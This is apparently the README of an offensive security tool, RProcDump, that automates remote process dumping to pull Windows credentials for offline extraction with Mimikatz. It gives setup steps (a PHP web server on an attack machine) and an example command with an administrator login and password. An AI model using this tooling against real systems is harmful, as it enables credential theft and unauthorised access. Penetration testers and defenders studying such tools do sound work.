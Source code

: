 # RProcDump
Remote process dumping automation. 
Use it to dump remotely all windows credentials and extract clear text with Mimikatz offline

Help:
	Host all files in a webserver able to interpret PHP (apache2 on kali linux)
	Edit prameters in procdump.ps1 and run Rprocdump.ps1 with same parameters on attack machine:
	example:
	RProcdump -server http://127.0.0.1 -login administrator -pass password123

 Author: @ThebenyGreen
  - EyesOpenSecurity